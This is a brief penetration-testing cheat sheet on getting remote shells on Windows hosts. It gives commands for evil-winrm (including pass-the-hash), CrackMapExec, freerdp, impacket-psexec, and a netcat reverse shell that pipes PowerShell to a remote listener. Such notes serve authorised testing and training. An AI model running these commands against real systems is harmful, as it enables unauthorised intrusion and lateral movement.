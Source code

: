 # 🐚 Shells

## Evil-WinRM

{% embed url="https://github.com/Hackplayers/evil-winrm" %}

### Test

```bash
cme winrm -i IP/hostname -u $USERNAME -p $PASSWORD/-H $LM_HASH
```

### Port : 5985

```bash
evil-winrm -i IP/hostname -u $USERNAME -H $HASH

evil-winrm -i IP/hostname -u $USERNAME -p $PASSWORD
```

## RDP - freerdp

```bash
freerdp /u:$user /p:$password /v:$ip
```

## `Impacket-psexec`

PSEXEC like functionality example using RemComSvc

```bash
impacket-psexec '$user:$password@$ip'
psexec.py $user:$pass@$ip
```

## `netcat`

```bash
# Windows
# server : 
nc.exe $ip $port -e powershell

# client : 
nc -lvnp $port
```
